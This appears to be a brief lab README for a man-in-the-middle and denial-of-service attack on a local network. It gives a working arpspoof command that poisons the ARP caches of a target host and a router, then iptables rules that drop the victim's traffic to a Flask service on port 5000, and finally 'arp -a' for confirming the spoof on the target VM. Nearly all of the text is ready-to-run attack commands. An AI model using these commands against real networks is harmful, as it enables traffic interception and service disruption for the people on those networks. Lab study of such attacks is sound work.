 # Man-in-the-Middle and DoS attack
 
## Command to Start ARP Spoof
```bash
sudo arpspoof -i ens33 -t 10.0.0.45 -r 10.0.0.133
```
## Commands to Filter Out Packets

These commands drop packets for and from the victim, specifically targeting the Flask application:
```bash
sudo iptables -A FORWARD -s 10.0.0.133 -d 10.0.0.45 -p tcp --sport 5000 -j DROP
sudo iptables -A FORWARD -s 10.0.0.45 -d 10.0.0.133 -p tcp --dport 5000 -j DROP
```

## Command to Verify ARP Spoof on the Target VM

Run the following command on the target VM to check if an ARP spoof has occurred:
```bash
arp -a
```
